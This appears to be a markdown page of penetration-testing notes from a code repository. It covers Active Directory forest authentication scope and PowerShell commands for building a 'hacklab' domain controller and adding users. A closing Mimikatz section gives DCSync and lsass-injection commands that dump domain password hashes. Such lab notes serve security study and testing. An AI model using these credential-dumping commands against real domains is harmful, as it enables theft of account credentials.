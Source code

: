 **Scope of Authentication**

- Forest-wide authentication -  Users from the outside forest have the same level of access to resources in the local forest as users who belong to the local forest.
- Selective authentication - You need to manually assign permissions on each computer in the domain as well as the resources to which you want users in the second forest to have access (by editing ACE (Access control entry)).

## Setup

```powershell
Install-windowsfeature AD-domain-services
Install-WindowsFeature RSAT-ADDS

Import-Module ADDSDeployment
Install-ADDSForest -CreateDnsDelegation:$false ` -DatabasePath "C:\Windows\NTDS" ` -DomainMode "Win2012R2" ` -DomainName "server1.hacklab.local" ` -DomainNetbiosName "server1" `  -ForestMode "Win2012R2" `  -InstallDns:$true `  -LogPath "C:\Windows\NTDS" `  -NoRebootOnCompletion:$false `  -SysvolPath "C:\Windows\SYSVOL" `  -Force:$true
```

- Download VMs: <https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/>
- SysPrep When and How: <https://thesolving.com/server-room/when-and-how-to-use-sysprep/>
- Add user
  - `net user user1 Passw0rd! /ADD /DOMAIN`
  - `New-ADUser -Name "Winsaaf Man" -DisplayName "Winsaaf Man" -SamAccountName “winsaaf.man” -UserPrincipalName “winsaaf.man@scriptdotsh.local” -GivenName “winsaaf” -Surname "man" -AccountPassword (Read-host -AsSecureString “Enter Password”) -Enabled $true -server scriptdotsh.local`
    - More options:
      - `-ChangePasswordAtLogon $false`
      - `-PasswordNeverExpires $true`
  - Bulk addition: <https://gallery.technet.microsoft.com/office/Create-Contoso-Users-in-3e2f38f2/view/Discussions>
- View users: `net users /domain`
- View group: `net group /domain "Domain Admins"`

## Tools

### Mimikatz

- Utilises the Directory Replication Service (DRS) to retrieve the password hashes from the NTDS.DIT file
    ```
    lsadump::dcsync /domain:pentestlab.local /all /csv
    lsadump::dcsync /domain:pentestlab.local /user:test
    ```
- Executing Mimikatz directly in the domain controller password hashes can be dumped via the lsass.exe process
    ```
    privilege::debug
    lsadump::lsa /inject
    ```
